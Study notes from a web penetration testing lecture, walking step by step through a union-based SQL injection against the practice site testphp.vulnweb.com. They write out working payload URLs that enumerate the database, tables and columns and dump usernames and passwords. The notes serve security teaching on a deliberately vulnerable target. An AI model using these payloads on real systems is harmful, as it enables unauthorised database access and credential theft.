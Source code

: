 #WAPT #penetration-testing
### Overview
- exploiting via SQL injection , how we can change the name of database , which database using , table name , column name , sensitive details like username & password ✔ 
### what we'll learn
- how to get information from the application's database via SQL injection
### Extra Resources - SQL injection - Penetration Testing
- [Basics of SQL Injection - Penetration Testing for Ethical Hackers - YouTube](https://www.youtube.com/watch?v=2nXOxLpeu80&ab_channel=freeCodeCamp.org)
- [[HINDI] Blind SQL Injection | Methodology and Types | Conceptual Guide - YouTube](https://www.youtube.com/watch?v=O1UTuWkTaks&ab_channel=BittenTech)

---
### Topics - Explanation

1) <u>Overview Explanation</u>
	- testphp.vulnweb.com/artists.php : this is a website where we're gonna apply SQL injection
	- so it's vulnerable parameter is `http://testphp.vulnweb.com/artists.php?artist=1` 
	- STEP 1: Ques : how do Anuj sir got to know that's the vulnerable parameter ? ✅
		- Ans : when u put a single quote after that `artist=1` like this `artist=1'`
		- & hit enter , then it's throwing an error/exception ![[WAPT-lecture-21-0.jpg]]
		- & it's showing location i.e `/hj/var/www/artists.php on line 62`
	- STEP 2: `imp note ⭐` : whenever you feel that u got the vulnerable parameter on which we can perform SQL injection then try to find out the `how many columns have in the application`  
		- so checking for 1st column `http://testphp.vulnweb.com/artists.php?artist=1 order by 1` , we'll get something as a output ![[WAPT-lecture-21-1.jpg]]
		- so way give for 2nd column then 3rd column , so increase the columns to check on which column we're getting error ✔
		- STEP 2.2 : so write for 2nd column `http://testphp.vulnweb.com/artists.php?artist=1 order by 2` , so again we'll get output
		- STEP 2.3 : checking for 3rd column `http://testphp.vulnweb.com/artists.php?artist=1 order by 3` , so again we'll get output
		- STEP 2.4: checking for 4th column `http://testphp.vulnweb.com/artists.php?artist=1 order by 4` , so again we'll get error ✔ ![[WAPT-lecture-21-2.jpg]]
		- which means this application contain only 3 columns (means web pages) ✔
	- STEP 3: checking which columns are reflecting/coming & which are not
		- using `union` command to combine those columns which were giving output
		- STEP 3.1: so `http://testphp.vulnweb.com/artists.php?artist=1 union select 1,2,3` , here total 3 columns given cuz the application contain only 3 columns , so hit enter & u'll get the output as same as previous one ✔
		- so same output is coming cuz due to 1 i.e `artist=1` , so we'll query or do changes in the URL, so that it gets break - means expected output will not come ✔
		- STEP 3.2: if u put a single quote `http://testphp.vulnweb.com/artists.php?artist=1' union select 1,2,3`, output : still getting the same error
		- so we'll give something different which is not expected encode (like 1 , 2 , 3 , 4 & so on..) , so we'll give `-1` ✔
		- STEP 3.3: `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3` , so output ![[WAPT-lecture-21-3.jpg]]
		- in URL we gave `1,2,3` but here 2 & 3 columns are coming but `1` column is not coming , so output of 2nd & 3rd column is coming 
		- STEP 3.4: in order to check more clearly , so write something custom on each column i.e `http://test.php.vulnweb.com/artists.php?artist=1 union select "ace","ethical","sharmaji"` & output ![[WAPT-lecture-21-4.jpg]]
		- so for 2nd column "ethical" & 3rd column "sharmaji" are reflecting/coming , so we got to know which columns are reflecting ✔
	- STEP 4: finding database via finding which column is using database
		- so we directly put `database()` on 2nd column without checking cuz to save the time
		- STEP 4.1: put this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3` , output ![[WAPT-lecture-21-5.jpg]]
		- so we got the database name `acuart`
		- & in order to play with this webapp , then only change 2nd & 3rd column cuz these are 2 which gives output
	- STEP 5: finding version & current user
		- STEP 5.1: `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1 ,version(),current_user()` & hit enter , output ![[WAPT-lecture-21-6.jpg]]
		- STEP 5.1: taking out more information , pass these parameters `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1, table_name,3 from information_schema.tables where table_schema=database() limit 0,1` , here `0,1` means return `1st` value , output ![[WAPT-lecture-21-7.jpg]]
		- means 1st table name is "artists" , same way u can change the limit in URL like `limit 1,1` then u'll get "carts"
		- STEP 5.2: but finding each columns individually via passing numbers will be difficult , so run this query `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()`
		- so `group_concat()` will concat all table names & show them , so output ![[WAPT-lecture-21-8.jpg]]
	- STEP 6: taking out `users`  sensitive data
		- STEP 6.1: run this `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'`
		- means we're retrieving columns of users table via `group_concat()` ✔
		- output : we'll get `uname,pass,cc,address,email,name,phone,cart`
	- STEP 7: taking out username & password
		- STEP 7.1: use this parameter `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname),3 from users`
		- so this will show all the usernames , hit enter & output : test - cuz we have only 1 username in the database
		- STEP 7.2: to get all the passwords of all usernames , `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(pass),3 from users` , output : pass
		- STEP 7.3: to show all usernames & passwords altogether `http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(uname,"::",pass),3 from users` , output : test::test
### Summary
1) checking the webapp whether it's vulnerable or not by putting a single quote
2) checking number of columns in the application
3) checking which columns are reflecting/coming & which are not coming reflecting
4) finding database via finding which column is using/connected with database
5) finding version of tech used in application + current user
6) taking out users sensitive data
7) taking out all usernames & passwords

